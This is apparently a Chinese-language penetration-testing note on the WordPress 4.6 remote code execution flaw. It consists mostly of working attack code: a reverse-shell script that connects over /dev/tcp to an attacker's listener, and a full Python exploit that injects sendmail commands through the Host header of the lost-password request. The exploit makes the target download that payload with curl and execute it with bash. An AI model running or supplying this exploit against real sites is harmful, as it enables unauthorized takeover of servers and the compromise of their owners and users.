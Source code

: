 ### 02-WordPress4.6远程代码执行漏洞

配置好将shell.sh 文件放入自己的服务器

```bash
root@kail:/var/ww/html/# cat shell.sh
0<139-;exec 139<>/dev/tcp/192.168.86.200/1995;sh <&139 >&139
```

将自己服务器中的shell.sh 放入目标服务器

![wordpress4.6rec2](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/wordpress4.6rec2.png)

创建 exp，漏洞利用头部的字段注入了恶意的Payload 数据，并进入 mail 函数，再利用【 sendmail 】命令的【 be 】参数进行命令的执行

```python
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://192.168.0.142' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = '192.168.0.141:8000/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'
def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command

session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)
session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```
